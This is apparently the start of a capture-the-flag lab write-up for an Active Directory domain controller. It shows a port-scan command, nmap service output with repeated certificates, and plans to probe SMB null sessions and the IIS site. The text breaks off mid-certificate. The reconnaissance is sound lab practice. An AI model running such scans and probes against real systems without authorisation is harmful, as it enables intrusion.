



# Scope

_10.129.234.66_

# Enumeration

## Port Scan

```bash
[Jun 18, 2026 - 22:23:51 (+08)] exegol-htb sendai # rustscan -a $TARGET --ulimit 5000 -b 400 -- -Pn -oN ./recon/rustscan.out

<SNIP>

PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack ttl 127
80/tcp    open  http             syn-ack ttl 127
88/tcp    open  kerberos-sec     syn-ack ttl 127
135/tcp   open  msrpc            syn-ack ttl 127
139/tcp   open  netbios-ssn      syn-ack ttl 127
389/tcp   open  ldap             syn-ack ttl 127
443/tcp   open  https            syn-ack ttl 127
445/tcp   open  microsoft-ds     syn-ack ttl 127
464/tcp   open  kpasswd5         syn-ack ttl 127
593/tcp   open  http-rpc-epmap   syn-ack ttl 127
636/tcp   open  ldapssl          syn-ack ttl 127
3268/tcp  open  globalcatLDAP    syn-ack ttl 127
3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
3389/tcp  open  ms-wbt-server    syn-ack ttl 127
5985/tcp  open  wsman            syn-ack ttl 127
9389/tcp  open  adws             syn-ack ttl 127
49664/tcp open  unknown          syn-ack ttl 127
49668/tcp open  unknown          syn-ack ttl 127
50087/tcp open  unknown          syn-ack ttl 127
50109/tcp open  unknown          syn-ack ttl 127
50181/tcp open  unknown          syn-ack ttl 127
55090/tcp open  unknown          syn-ack ttl 127
55091/tcp open  unknown          syn-ack ttl 127
55108/tcp open  unknown          syn-ack ttl 127
```

## Initial Hypothesis

- Given the list of services running at one time, this seems to be a full AD Domain Controller.
- Two non standard ports open are (tcp/80 and 443) which hint at a web server of some sort running. This isn't found by default.
- There also seem to be samba shares open on (tcp/445). This could be a possible area where null authentication is allowed.
- Areas to test:
  - Samba shares to see if null/unauthorized authenticated access is allowed due to possible misconfigurations.
  - The web server to see if there is an actual site running on it. If so, there is a possiblilty of finding vulnerable versions with CVEs already assigned, or some logic flaw, etc...

## Services

```bash

PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2026-06-18 14:59:33Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.sendai.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.sendai.vl
| Issuer: commonName=sendai-DC-CA/domainComponent=sendai
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-08-18T12:30:05
| Not valid after:  2026-08-18T12:30:05
| MD5:   879efbc1988b964ae183673566b89f3c
| SHA-1: 099e0fbb349b7fb135de6acb77a4c3e5d0e14578
| -----BEGIN CERTIFICATE-----
| MIIGFTCCBP2gAwIBAgITVwAAAATYPsFplvexvwAAAAAABDANBgkqhkiG9w0BAQsF
| ADBDMRIwEAYKCZImiZPyLGQBGRYCdmwxFjAUBgoJkiaJk/IsZAEZFgZzZW5kYWkx
| FTATBgNVBAMTDHNlbmRhaS1EQy1DQTAeFw0yNTA4MTgxMjMwMDVaFw0yNjA4MTgx
| MjMwMDVaMBcxFTATBgNVBAMTDGRjLnNlbmRhaS52bDCCASIwDQYJKoZIhvcNAQEB
| BQADggEPADCCAQoCggEBAM/zoBh9/Vf9Dg2a7ZByPbs7K7m34f14/NBkNL+qvWwW
| A6uVwcXtdqZTm2m/ihyTcq1HCADBVR57BcB0S6nkIIqoTis/ATH+E4zj1Mpek3ml
| IxXv3yer14cVtP5cCmlm92rFMLbdAmnH3VyEGoE0pg64OtwPbAuYHTpnuaRQvdfl
| dWILGe0qsBahDpOhgxnpxLZFuacK3mCy45mz8T1iwYpMLo9WE7z2o/THjP58dCJ3
| +a9HoEcqz5mdon4OK/ZDWokCC5m2JVXwdglm04SeU5pTLqIuvkvrFPF6xByTo6OG
| w0mD55O3dpqu2AXPHpxmSszZUHZedZ7oZYHah9X/vlkCAwEAAaOCAywwggMoMC8G
| CSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABsAGUAcjAd
| BgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQDAgWgMHgG
| CSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQMEAgIAgDAL
| BglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglghkgBZQME
| AQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwTQYJKwYBBAGCNxkCBEAwPqA8BgorBgEE
| AYI3GQIBoC4ELFMtMS01LTIxLTMwODU4NzI3NDItNTcwOTcyODIzLTczNjc2NDEz
| Mi0xMDAwMDgGA1UdEQQxMC+gHwYJKwYBBAGCNxkBoBIEEB6FyoYBEbdOhIdd+rz6
| DSGCDGRjLnNlbmRhaS52bDAdBgNVHQ4EFgQUvcswuDmO6a7M1hAuQYYIq7/AN/Qw
| HwYDVR0jBBgwFoAUSemJy2wGmS2/ToDZ6jjJnKaooz4wgcMGA1UdHwSBuzCBuDCB
| taCBsqCBr4aBrGxkYXA6Ly8vQ049c2VuZGFpLURDLUNBLENOPWRjLENOPUNEUCxD
| Tj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1
| cmF0aW9uLERDPXNlbmRhaSxEQz12bD9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0
| P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgbwGCCsGAQUF
| BwEBBIGvMIGsMIGpBggrBgEFBQcwAoaBnGxkYXA6Ly8vQ049c2VuZGFpLURDLUNB
| LENOPUFJQSxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPXNlbmRhaSxEQz12bD9jQUNlcnRpZmljYXRlP2Jh
| c2U/b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTANBgkqhkiG9w0B
| AQsFAAOCAQEAhxfDqVgK+WpagVPhh89RuqlcLnfnYgeBTRQTEwrzI7OZ4SF1//04
| eSwGSqxNPoShh7oMGO2FE/ad5LxFu1KdS+zTWyXCw4B9HgXKOdM1wmxpJujwFyXt
| JGZHrnQzaa0ePj9i/tpjk/D0Q0gurbAkjTlEw5FAitraZuYOT7SVf8bL0u/6RIBo
| syB2pUE3O//Dj+O7t2xOj9swvokQ6Dnlq0VN313aIVrPrgFnUdfVpd3B2yoXXziD
| KZ2i9fc55HIMZ5VM/aN5M7UT1KqdD7BoEG8b3bq0gi0iCCsxjQyRMsw5Dd3UcCuQ
| R4i0WBM2m9vQoSf/jw1s4S1uQ69/cK9iwQ==
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
443/tcp   open  ssl/http      syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
| ssl-cert: Subject: commonName=dc.sendai.vl
| Subject Alternative Name: DNS:dc.sendai.vl
| Issuer: commonName=dc.sendai.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-18T12:39:21
| Not valid after:  2024-07-18T00:00:00
| MD5:   322391f5f1f74e16738e382d053ec7fa
| SHA-1: 5282f809dcc98d53e9a1065a25a1c741fa2c4bc5
| -----BEGIN CERTIFICATE-----
| MIIC9TCCAd2gAwIBAgIQKG7SWIn2M6tPyGomAHBoSjANBgkqhkiG9w0BAQsFADAX
| MRUwEwYDVQQDEwxkYy5zZW5kYWkudmwwHhcNMjMwNzE4MTIzOTIxWhcNMjQwNzE4
| MDAwMDAwWjAXMRUwEwYDVQQDEwxkYy5zZW5kYWkudmwwggEiMA0GCSqGSIb3DQEB
| AQUAA4IBDwAwggEKAoIBAQDcBXcByvqbxTJwsmevy4Bj83CH0vCBzz3cev/4fxMG
| Ill5epHVaQJSNAwCRseP2KJYUqfpUaZuJTjhvtm9V6uRdhBNy9xtMH/kGfx6KVeO
| TViixsc/X5DCROAcjUhnsXJa1pmtcTItDn+f0VMYbjHsMGqM+yOeguPSXPztnMWZ
| TtuwKH/EnyUIOtxo3tIuCLthRt4W36r6I9kkYmpWhPyuhVssAFuQ8fL7JyVTFWBE
| cvG9YO0a4B8+t4PBnUKdMf8n0I6viITltxQpSby1Atlx1lF9OngDK/sKnxiYSzFw
| 64bOIRU8EVAo8dCab5ZrHM2H2KphvaFWccccJGytsz2FAgMBAAGjPTA7MAsGA1Ud
| DwQEAwIEsDATBgNVHSUEDDAKBggrBgEFBQcDATAXBgNVHREEEDAOggxkYy5zZW5k
| YWkudmwwDQYJKoZIhvcNAQELBQADggEBAB9DGOlZwCpk4UGmyYa7R+D924WY6QQ7
| nHLlL/F1KKXY29Ps2WKj4EwPkWrwBmMy6T5rIyJJIIuM4SIXWeXCjOo7RcLkYoM4
| eyONMuzZINzzr83EypJbygJVt4wPlYPJpkP8Xsl4Y3RCYiRqVeDmW+sUfOh4NmBo
| jS9ra3d/LtStdVbMGtWEIXGISSZN0v5ygCAQMUSrcCbvDJESHJrALGJ8TLLLn86p
| qivJSaN69CybqAILhPph0/yb7iBG4LH06LXq7Ros7r5c8kaMjELOHSb+DsiDfGfM
| kYMg/u4NFqroRzmHFo1Z0H/vN4Au33hmsj6pCVzGnQDMs2/mDAfLKLg=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc.sendai.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.sendai.vl
| Issuer: commonName=sendai-DC-CA/domainComponent=sendai
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-08-18T12:30:05
| Not valid after:  2026-08-18T12:30:05
| MD5:   879efbc1988b964ae183673566b89f3c
| SHA-1: 099e0fbb349b7fb135de6acb77a4c3e5d0e14578
| -----BEGIN CERTIFICATE-----
| MIIGFTCCBP2gAwIBAgITVwAAAATYPsFplvexvwAAAAAABDANBgkqhkiG9w0BAQsF
| ADBDMRIwEAYKCZImiZPyLGQBGRYCdmwxFjAUBgoJkiaJk/IsZAEZFgZzZW5kYWkx
| FTATBgNVBAMTDHNlbmRhaS1EQy1DQTAeFw0yNTA4MTgxMjMwMDVaFw0yNjA4MTgx
| MjMwMDVaMBcxFTATBgNVBAMTDGRjLnNlbmRhaS52bDCCASIwDQYJKoZIhvcNAQEB
| BQADggEPADCCAQoCggEBAM/zoBh9/Vf9Dg2a7ZByPbs7K7m34f14/NBkNL+qvWwW
| A6uVwcXtdqZTm2m/ihyTcq1HCADBVR57BcB0S6nkIIqoTis/ATH+E4zj1Mpek3ml
| IxXv3yer14cVtP5cCmlm92rFMLbdAmnH3VyEGoE0pg64OtwPbAuYHTpnuaRQvdfl
| dWILGe0qsBahDpOhgxnpxLZFuacK3mCy45mz8T1iwYpMLo9WE7z2o/THjP58dCJ3
| +a9HoEcqz5mdon4OK/ZDWokCC5m2JVXwdglm04SeU5pTLqIuvkvrFPF6xByTo6OG
| w0mD55O3dpqu2AXPHpxmSszZUHZedZ7oZYHah9X/vlkCAwEAAaOCAywwggMoMC8G
| CSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABsAGUAcjAd
| BgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQDAgWgMHgG
| CSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQMEAgIAgDAL
| BglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglghkgBZQME
| AQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwTQYJKwYBBAGCNxkCBEAwPqA8BgorBgEE
| AYI3GQIBoC4ELFMtMS01LTIxLTMwODU4NzI3NDItNTcwOTcyODIzLTczNjc2NDEz
| Mi0xMDAwMDgGA1UdEQQxMC+gHwYJKwYBBAGCNxkBoBIEEB6FyoYBEbdOhIdd+rz6
| DSGCDGRjLnNlbmRhaS52bDAdBgNVHQ4EFgQUvcswuDmO6a7M1hAuQYYIq7/AN/Qw
| HwYDVR0jBBgwFoAUSemJy2wGmS2/ToDZ6jjJnKaooz4wgcMGA1UdHwSBuzCBuDCB
| taCBsqCBr4aBrGxkYXA6Ly8vQ049c2VuZGFpLURDLUNBLENOPWRjLENOPUNEUCxD
| Tj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1
| cmF0aW9uLERDPXNlbmRhaSxEQz12bD9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0
| P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgbwGCCsGAQUF
| BwEBBIGvMIGsMIGpBggrBgEFBQcwAoaBnGxkYXA6Ly8vQ049c2VuZGFpLURDLUNB
| LENOPUFJQSxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPXNlbmRhaSxEQz12bD9jQUNlcnRpZmljYXRlP2Jh
| c2U/b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTANBgkqhkiG9w0B
| AQsFAAOCAQEAhxfDqVgK+WpagVPhh89RuqlcLnfnYgeBTRQTEwrzI7OZ4SF1//04
| eSwGSqxNPoShh7oMGO2FE/ad5LxFu1KdS+zTWyXCw4B9HgXKOdM1wmxpJujwFyXt
| JGZHrnQzaa0ePj9i/tpjk/D0Q0gurbAkjTlEw5FAitraZuYOT7SVf8bL0u/6RIBo
| syB2pUE3O//Dj+O7t2xOj9swvokQ6Dnlq0VN313aIVrPrgFnUdfVpd3B2yoXXziD
| KZ2i9fc55HIMZ5VM/aN5M7UT1KqdD7BoEG8b3bq0gi0iCCsxjQyRMsw5Dd3UcCuQ
| R4i0WBM2m9vQoSf/jw1s4S1uQ69/cK9iwQ==
|_-----END CERTIFICATE-----
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.sendai.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.sendai.vl
| Issuer: commonName=sendai-DC-CA/domainComponent=sendai
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-08-18T12:30:05
| Not valid after:  2026-08-18T12:30:05
| MD5:   879efbc1988b964ae183673566b89f3c
| SHA-1: 099e0fbb349b7fb135de6acb77a4c3e5d0e14578
| -----BEGIN CERTIFICATE-----
| MIIGFTCCBP2gAwIBAgITVwAAAATYPsFplvexvwAAAAAABDANBgkqhkiG9w0BAQsF
| ADBDMRIwEAYKCZImiZPyLGQBGRYCdmwxFjAUBgoJkiaJk/IsZAEZFgZzZW5kYWkx
| FTATBgNVBAMTDHNlbmRhaS1EQy1DQTAeFw0yNTA4MTgxMjMwMDVaFw0yNjA4MTgx
| MjMwMDVaMBcxFTATBgNVBAMTDGRjLnNlbmRhaS52bDCCASIwDQYJKoZIhvcNAQEB
| BQADggEPADCCAQoCggEBAM/zoBh9/Vf9Dg2a7ZByPbs7K7m34f14/NBkNL+qvWwW
| A6uVwcXtdqZTm2m/ihyTcq1HCADBVR57BcB0S6nkIIqoTis/ATH+E4zj1Mpek3ml
| IxXv3yer14cVtP5cCmlm92rFMLbdAmnH3VyEGoE0pg64OtwPbAuYHTpnuaRQvdfl
| dWILGe0qsBahDpOhgxnpxLZFuacK3mCy45mz8T1iwYpMLo9WE7z2o/THjP58dCJ3
| +a9HoEcqz5mdon4OK/ZDWokCC5m2JVXwdglm04SeU5pTLqIuvkvrFPF6xByTo6OG
| w0mD55O3dpqu2AXPHpxmSszZUHZedZ7oZYHah9X/vlkCAwEAAaOCAywwggMoMC8G
| CSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABsAGUAcjAd
| BgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQDAgWgMHgG
| CSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQMEAgIAgDAL
| BglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglghkgBZQME
| AQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwTQYJKwYBBAGCNxkCBEAwPqA8BgorBgEE
| AYI3GQIBoC4ELFMtMS01LTIxLTMwODU4NzI3NDItNTcwOTcyODIzLTczNjc2NDEz
| Mi0xMDAwMDgGA1UdEQQxMC+gHwYJKwYBBAGCNxkBoBIEEB6FyoYBEbdOhIdd+rz6
| DSGCDGRjLnNlbmRhaS52bDAdBgNVHQ4EFgQUvcswuDmO6a7M1hAuQYYIq7/AN/Qw
| HwYDVR0jBBgwFoAUSemJy2wGmS2/ToDZ6jjJnKaooz4wgcMGA1UdHwSBuzCBuDCB
| taCBsqCBr4aBrGxkYXA6Ly8vQ049c2VuZGFpLURDLUNBLENOPWRjLENOPUNEUCxD
| Tj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1
| cmF0aW9uLERDPXNlbmRhaSxEQz12bD9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0
| P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgbwGCCsGAQUF
| BwEBBIGvMIGsMIGpBggrBgEFBQcwAoaBnGxkYXA6Ly8vQ049c2VuZGFpLURDLUNB
| LENOPUFJQSxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPXNlbmRhaSxEQz12bD9jQUNlcnRpZmljYXRlP2Jh
| c2U/b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTANBgkqhkiG9w0B
| AQsFAAOCAQEAhxfDqVgK+WpagVPhh89RuqlcLnfnYgeBTRQTEwrzI7OZ4SF1//04
| eSwGSqxNPoShh7oMGO2FE/ad5LxFu1KdS+zTWyXCw4B9HgXKOdM1wmxpJujwFyXt
| JGZHrnQzaa0ePj9i/tpjk/D0Q0gurbAkjTlEw5FAitraZuYOT7SVf8bL0u/6RIBo
| syB2pUE3O//Dj+O7t2xOj9swvokQ6Dnlq0VN313aIVrPrgFnUdfVpd3B2yoXXziD
| KZ2i9fc55HIMZ5VM/aN5M7UT1KqdD7BoEG8b3bq0gi0iCCsxjQyRMsw5Dd3UcCuQ
| R4i0WBM2m9vQoSf/jw1s4S1uQ69/cK9iwQ==
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc.sendai.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.sendai.vl
| Issuer: commonName=sendai-DC-CA/domainComponent=sendai
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-08-18T12:30:05
| Not valid after:  2026-08-18T12:30:05
| MD5:   879efbc1988b964ae183673566b89f3c
| SHA-1: 099e0fbb349b7fb135de6acb77a4c3e5d0e14578
| -----BEGIN CERTIFICATE-----
| MIIGFTCCBP2gAwIBAgITVwAAAATYPsFplvexvwAAAAAABDANBgkqhkiG9w0BAQsF
| ADBDMRIwEAYKCZImiZPyLGQBGRYCdmwxFjAUBgoJkiaJk/IsZAEZFgZzZW5kYWkx
| FTATBgNVBAMTDHNlbmRhaS1EQy1DQTAeFw0yNTA4MTgxMjMwMDVaFw0yNjA4MTgx
| MjMwMDVaMBcxFTATBgNVBAMTDGRjLnNlbmRhaS52bDCCASIwDQYJKoZIhvcNAQEB
| BQADggEPADCCAQoCggEBAM/zoBh9/Vf9Dg2a7ZByPbs7K7m34f14/NBkNL+qvWwW
| A6uVwcXtdqZTm2m/ihyTcq1HCADBVR57BcB0S6nkIIqoTis/ATH+E4zj1Mpek3ml
| IxXv3yer14cVtP5cCmlm92rFMLbdAmnH3VyEGoE0pg64OtwPbAuYHTpnuaRQvdfl
| dWILGe0qsBahDpOhgxnpxLZFuacK3mCy45mz8T1iwYpMLo9WE7z2o/THjP58dCJ3
| +a9HoEcqz5mdon4OK/ZDWokCC5m2JVXwdglm04SeU5pTLqIuvkvrFPF6xByTo6OG
| w0mD55O3dpqu2AXPHpxmSszZUHZedZ7oZYHah9X/vlkCAwEAAaOCAywwggMoMC8G
| CSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABsAGUAcjAd
| BgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQDAgWgMHgG
| CSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQMEAgIAgDAL
| BglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglghkgBZQME
| AQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwTQYJKwYBBAGCNxkCBEAwPqA8BgorBgEE
| AYI3GQIBoC4ELFMtMS01LTIxLTMwODU4NzI3NDItNTcwOTcyODIzLTczNjc2NDEz
| Mi0xMDAwMDgGA1UdEQQxMC+gHwYJKwYBBAGCNxkBoBIEEB6FyoYBEbdOhIdd+rz6
| DSGCDGRjLnNlbmRhaS52bDAdBgNVHQ4EFgQUvcswuDmO6a7M1hAuQYYIq7/AN/Qw
| HwYDVR0jBBgwFoAUSemJy2wGmS2/ToDZ6jjJnKaooz4wgcMGA1UdHwSBuzCBuDCB
| taCBsqCBr4aBrGxkYXA6Ly8vQ049c2VuZGFpLURDLUNBLENOPWRjLENOPUNEUCxD
| Tj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1
| cmF0aW9uLERDPXNlbmRhaSxEQz12bD9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0
| P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgbwGCCsGAQUF
| BwEBBIGvMIGsMIGpBggrBgEFBQcwAoaBnGxkYXA6Ly8vQ049c2VuZGFpLURDLUNB
| LENOPUFJQSxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPXNlbmRhaSxEQz12bD9jQUNlcnRpZmljYXRlP2Jh
| c2U/b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTANBgkqhkiG9w0B
| AQsFAAOCAQEAhxfDqVgK+WpagVPhh89RuqlcLnfnYgeBTRQTEwrzI7OZ4SF1//04
| eSwGSqxNPoShh7oMGO2FE/ad5LxFu1KdS+zTWyXCw4B9HgXKOdM1wmxpJujwFyXt
| JGZHrnQzaa0ePj9i/tpjk/D0Q0gurbAkjTlEw5FAitraZuYOT7SVf8bL0u/6RIBo
| syB2pUE3O//Dj+O7t2xOj9swvokQ6Dnlq0VN313aIVrPrgFnUdfVpd3B2yoXXziD
| KZ2i9fc55HIMZ5VM/aN5M7UT1KqdD7BoEG8b3bq0gi0iCCsxjQyRMsw5Dd3UcCuQ
| R4i0WBM2m9vQoSf/jw1s4S1uQ69/cK9iwQ==
|_-----END CERTIFICATE-----
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| ssl-cert: Subject: commonName=dc.sendai.vl
| Issuer: commonName=dc.sendai.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-06-17T14:19:32
| Not valid after:  2026-12-17T14:19:32
| MD5:   99dab63a0ca263f1ee97d6f88289a0ca
| SHA-1: 1e6e53dc7e3b6e17845fd9b1428cf217eae80b40
| -----BEGIN CERTIFICATE-----
| MIIC3DCCAcSgAwIBAgIQKk1MW6my+7dLlQSYebt95zANBgkqhkiG9w0BAQsFADAX
| MRUwEwYDVQQDEwxkYy5zZW5kYWkudmwwHhcNMjYwNjE3MTQxOTMyWhcNMjYxMjE3
| MTQxOTMyWjAXMRUwEwYDVQQDEwxkYy5zZW5kYWkudmwwggEiMA0GCSqGSIb3DQEB
| AQUAA4IBDwAwggEKAoIBAQDJR4gFHSjZIQjRi6QR2Ok/eV6o40KSCj4HhlDCDxBu
| OE0e4E/9r6b5QiP+CrpLBNzyqZiPi/ZBxI7WnLx53wx4oUwUeCeq7u+rkRx6YUNi
| NeHzdnoc1pw5Gw0j5CLD1JByLYvWcl15z2wmUjH6vCnyara1snh90uJZsdV8q0C+
| dBxVwP+Apuv9iEwaTKs5IiMeHb4fd0CDBfFJ81IcPuE8dFMLzkh4zt7BNr/6pHzM
